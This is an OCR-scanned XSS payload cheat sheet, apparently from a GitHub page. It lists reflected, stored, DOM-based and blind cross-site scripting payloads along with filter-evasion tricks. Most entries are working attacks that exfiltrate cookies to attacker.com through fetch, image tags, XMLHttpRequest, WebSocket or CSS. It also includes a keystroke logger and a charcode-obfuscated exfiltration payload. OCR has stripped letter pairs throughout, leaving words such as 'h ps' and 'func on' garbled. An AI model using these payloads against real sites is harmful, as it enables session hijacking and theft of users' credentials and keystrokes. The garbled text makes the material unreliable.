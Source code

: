 ```yaml
---
**Reflected Cross-Site Scrip ng (XSS)**

1. Basic alert: 
<script>alert('XSS');</script> 
1. Stealing Cookies: 
<script>fetch('h p://a acker.com/log?cookie=' + document.cookie);</script> 
2. Redirec ng the User: 
<script>window.loca on='h p://a acker.com'</script> 
3. Bypassing Filters (using encoded characters): 
<img src=x onerror=alert('XSS')> 
Or encoded version: 
%3Cimg%20src%3Dx%20onerror%3Dalert%281%29%3E 
4. Using an Event Handler: 
<a href="#" onclick="alert('XSS')">Click me!</a> 
5. Advanced Payload (using IIFE): 
<script>(()=>{alert('XSS')})()</script> 

----

**Stored Cross-Site Scrip ng (Stored XSS)** 

1. Simple Alert Box: 
<script>alert('XSS');</script> 
2. Stealing Cookies: 
<script>fetch('h ps://a acker.com/log?cookie=' + document.cookie);</script> 
3. Session Hijacking using Image Tag: 
<img src="x" onerror="fetch('h ps://a acker.com/log?cookie='+document.cookie)"> 
4. Automa c Redirec on 
<script>window.loca on='h ps://a acker.com'</script> 
Advanced Payloads 
1. Bypassing Filters (using JavaScript event handlers): 
<svg onload=alert('XSS')> 
2. Using HTML A ributes: 
<input type="text" value="" onfocus="alert('XSS')" autofocus> 
3. Obfuscated JavaScript: 
<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script> 
4. IIFE (Immediately Invoked Func on Expression): 
<script>(func on(){alert('XSS')})()</script> 

---
```

**DOM-based Cross-Site Scrip ng (DOM XSS)**
1. URL Parameter Exploita on 
h p://example.com/page.html?name=<script>alert('XSS')</script> 
2. Loca on Hash Manipula on 
h p://example.com/page.html#<img src=x onerror=alert('XSS')> 
3. document.referrer Exploita on 
<a href="h p://example.com/vulnerablePage.html">Go to vulnerable site</a> 
4. Using localStorage 
localStorage.setItem('user', '<img src=x onerror=alert("XSS")>'); 
loca on.reload(); 
5. Bypassing Filters with eval() 
h p://example.com/page.html?data=alert('XSS') 
6. loca on.search with innerHTML 
h p://example.com/page.html?message=<svg/onload=alert('XSS')> 

---

**Basic Blind XSS Payloads **
1. Basic Exfiltra on using <script> 
<script>new Image().src='h ps://a acker.com/log?cookie='+document.cookie;</script> 
2. Using fetch() for Stealth 
<script> 
fetch('h ps://a acker.com/log', { 
method: 'POST', 
mode: 'no-cors', 
body: 'cookie=' + document.cookie + '&url=' + loca on.href 
}); 
</script> 
3. Stealing Data with an img tag 
<img src="h ps://a acker.com/log?data=" + document.cookie> 
Advanced Blind XSS Payloads 
1. Using XMLH pRequest 
<script> 
var xhr = new XMLH pRequest(); 
xhr.open("GET", "h ps://a acker.com/log?cookie=" + document.cookie, true); 
xhr.send(); 
</script> 
2. DOM Exfiltra on with window.onunload 
<body onunload="fetch('h ps://a acker.com/log?cookie=' + document.cookie)"> 
3. Keylogger Payload 
<script> 
document.onkeypress = func on(e) { 
fetch('h ps://a acker.com/keys?key=' + String.fromCharCode(e.which)); 
}; 
</script> 

---

**Obfuscated and Filter Evasion Techniques**
1. Encoded Characters 
<script>eval(String.fromCharCode(102,101,116,99,104,40,39,104,116,116,112,115,58,47,47,
 97,116,116,97,99,107,101,114,46,99,111,109,47,108,111,103,63,99,111,111,107,105,101,61
 ,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41));</script> 
2. Bypassing Filters with SVG 
<svg onload="fetch('h ps://a acker.com/log?cookie='+document.cookie)"> 
3. Using setTimeout 
<script>setTimeout(func on(){fetch('h ps://a acker.com/log?cookie='+document.cookie)}, 2000);</script> 

---

**Stealthy Payloads for Non-Script Contexts**
1. Using an HTML Attribute 
<iframe srcdoc="<script>new 
Image().src='https://attacker.com/log?cookie='+document.cookie;</script>"></iframe> 
2. CSS-Based Payload 
<style>@import 'https://attacker.com/log?cookie='+document.cookie;</style> 
3. Exfiltra ng via WebSocket 
<script> 
let ws = new WebSocket("wss://a acker.com/socket"); 
ws.onopen = func on() { 
ws.send(document.cookie); 
}; 
</script>

---
